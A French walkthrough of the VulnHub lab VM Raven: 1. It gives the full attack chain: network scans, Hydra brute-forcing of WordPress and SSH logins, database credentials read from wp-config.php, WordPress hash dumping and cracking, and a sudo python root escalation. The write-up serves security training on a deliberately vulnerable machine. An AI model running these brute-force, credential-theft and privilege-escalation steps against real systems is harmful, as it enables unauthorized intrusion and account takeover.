

# Raven: 1

[Raven: 1](https://www.vulnhub.com/entry/raven-1,256/) est une machine virtuelle vulnérable conçue par [le consultant en sécurité William McCann](https://wjmccann.github.io/), et publiée sur le site VulnHub au mois d'août 2018. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. À l'heure où ces lignes sont écrites (novembre 2018), il s'agit de la première VM de la série Raven, qui en compte deux. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

_Raven Security_ est, semble-t-il, le leader mondial de la sécurité de l'information et de la sécurité physique. Quatre flags sont à trouver au cours de nos pérégrinations, nous allons vérifier si la sécurité de leur serveur est irréprochable ! Pour commencer, l'outil [netdiscover](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Raven : il s'agit de 192.168.56.105.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
 
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:0b:0c:0d:0e:0f      1      60  Unknown vendor
192.168.56.100  08:00:08:00:08:00      1      60  PCS Systemtechnik GmbH
192.168.56.105  08:00:27:88:ad:a3      1      60  PCS Systemtechnik GmbH
```

Un scan nmap va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Il est ainsi possible de se connecter à distance avec SSH au serveur Raven, sur le port 22 ; un serveur Web Apache est par ailleurs installé, accessible via le port 80, sûrement le site vitrine de _Raven Security_.

```console
root@blinils:~# nmap -sT -sV -p- -A 192.168.56.105
--snip--
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          45496/tcp  status
|_  100024  1          50348/udp  status
45496/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:88:AD:A3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
--snip--
```

La page d'index est effectivement une présentation des activités de l'entreprise _Raven Security_ ; il n'y a pas de fichier robots.txt, mais une recherche manuelle permet de lister les pages suivantes : index.html, about.html, service.html, contact.php et team.html.

Sur cette dernière page Web, l'identité de chaque membre du staff est dévoilée, et peut potentiellement correspondre à des logins, très utiles pour se connecter en SSH par exemple (Ethel Davis, Rodney Cooper, Dora Walker et Lena Keller). Quant à l'onglet Blog, il renvoie vers un site WordPress, quasi-vide.



Les outils [DIRB](https://tools.kali.org/web-applications/dirb), [nikto](https://cirt.net/nikto2-docs/) et [WordPress Security Scanner](https://wpscan.org/) n'ont rien révélé de spécial ; en revanche, une recherche manuelle a permis de trouver le nom d'un utilisateur, _michael_, qui a rédigé le premier post du blog. Deux attaques avec l'outil [Hydra](http://sectools.org/tool/hydra/) sont alors lancées : l'une sur le service SSH à la recherche du mot de passe Unix du compte _michael_ (s'il existe), l'autre sur l'interface d'administration du WordPress à la recherche du mot de passe du compte _michael_ (qui, lui, existe bien).

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.105 \
-V http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

--snip--

[DATA] attacking http-post-form://192.168.56.105:80//wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "mistress" - 496 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "phantom" - 497 of 500 [child 6] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "billy" - 498 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "6666" - 499 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "albert" - 500 of 500 [child 5] (0/0)
1 of 1 target completed, 0 valid passwords found
```

Pas de chance pour WordPress. Et pour SSH ? 

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.105 ssh -t 4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

--snip--

[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
```

Bingo, nous disposons d'un shell sur le serveur !
Mais au fait, qui est ce Michael ? Il ne figure pas dans le staff du site vitrine. Bizarre...

```console
root@blinils:~# ssh michael@192.168.56.105
michael@192.168.56.105's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.

michael@Raven:~$ id; uname -a;
uid=1000(michael) gid=1000(michael) groups=1000(michael),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

michael@Raven:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for michael: 
Sorry, user michael may not run sudo on raven.
```

Le fichier [/etc/passwd](https://fr.wikipedia.org/wiki/Passwd) témoigne de l'existence d'un deuxième utilisateur potentiellement intéressant : _steven_.

```console
michael@Raven:~$ tail -n5 /etc/passwd
michael:x:1000:1000:michael,,,:/home/michael:/bin/bash
smmta:x:108:114:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:109:115:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
mysql:x:110:116:MySQL Server,,,:/nonexistent:/bin/false
steven:x:1001:1001::/home/steven:/bin/sh
```

D'autre part, le fichier de configuration _wp-config.php_ nous donne le sésame de la base de données présente sur le serveur.

```console
michael@Raven:~$ locate wp-config.php
/var/www/html/wordpress/wp-config.php
michael@Raven:~$ cat /var/www/html/wordpress/wp-config.php | grep DB
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
define('DB_COLLATE', '');
```

On se connecte ainsi avec les identifiants trouvés, et on récupère le contenu de la table _wp\_users_. 

```console
michael@Raven:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 98
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)

mysql> exit
Bye
michael@Raven:~$
```

Avec un peu de chance, [John The Ripper](http://openwall.com/john/) ne fera qu'une bouchée de ces hashs.

```console
root@blinils:~# cat pass-wordpress-raven.txt
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

root@blinils:~# john pass-wordpress-raven.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
pink84           (steven)
1g 0:00:43:40 DONE (2018-11-11 12:12) 0.000381g/s 5473p/s 5490c/s 5490C/s            ..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Après vérifications, il s'avère que Steven utilise le même mot de passe pour ses accès SSH et WordPress !

```console
root@blinils:~# ssh steven@192.168.56.105
steven@192.168.56.105's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Aug 13 14:12:04 2018

$ id; uname -a;
uid=1001(steven) gid=1001(steven) groups=1001(steven)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux
```

L'objectif est désormais de devenir root sur le serveur Raven. L'utilisateur steven est autorisé à exécuter la commande /usr/bin/python via sudo sans mot de passe. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io/gtfobins/python/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec python.

```console
$ sudo -l
Matching Defaults entries for steven on raven:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python

$ sudo /usr/bin/python -c 'import os; os.system("/bin/bash")'

root@Raven:/home/steven# id
uid=0(root) gid=0(root) groups=0(root)

root@Raven:/home/steven# wc -c /root/flag4.txt
442 /root/flag4.txt
```

flag2.txt se situe dans le répertoire /var/www/, tandis que flag3.txt est un article brouillon (_draft_), en attente de publication sur le site WordPress. Merci beaucoup à William McCann pour avoir créé ce challenge, hâte de dénicher le premier flag puis de m'attaquer à [Raven: 2](https://www.vulnhub.com/entry/raven-2,269/), sa seconde VM !
